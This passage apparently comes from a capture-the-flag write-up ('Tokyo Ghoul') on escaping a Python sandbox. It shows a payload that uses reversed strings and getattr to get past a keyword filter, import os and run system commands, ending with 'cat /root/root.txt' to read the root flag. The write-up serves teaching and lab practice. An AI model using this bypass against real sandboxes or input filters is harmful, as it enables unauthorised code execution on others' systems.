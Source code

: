 *We can call these built-in functions using the builtins module. For eg:*

```
>>> len('hello')
5
```

*is the same as*

```
>>> import builtins
>>> builtins.len('hello')
5
```

---

Looks like the payload does some sneaky string reversal to bypass the string matching done by the script.  After all, **'\__tropmi__'[::-1]** is essentially the same as **'\__import__'**. 

We then use the getattr() function to import the `os` library, which is also string-reversed. From there, getattr() is used once again to call the `system()` method in the `os` library, which allows us to run any system commands.

Let's try it out:

![screenshot28](../assets/images/tokyo_ghoul/screenshot28.png)

Great! We have achieved code execution outside of the Python sandbox. Now we just alter our payload as such:

```
getattr(getattr(__builtins__,'__tropmi__'[::-1])('so'[::-1]),'metsys'[::-1])('cat /root/root.txt');
```

With that, we are able to directly read out the **root flag** from /root:

![screenshot29](../assets/images/tokyo_ghoul/screenshot29.png)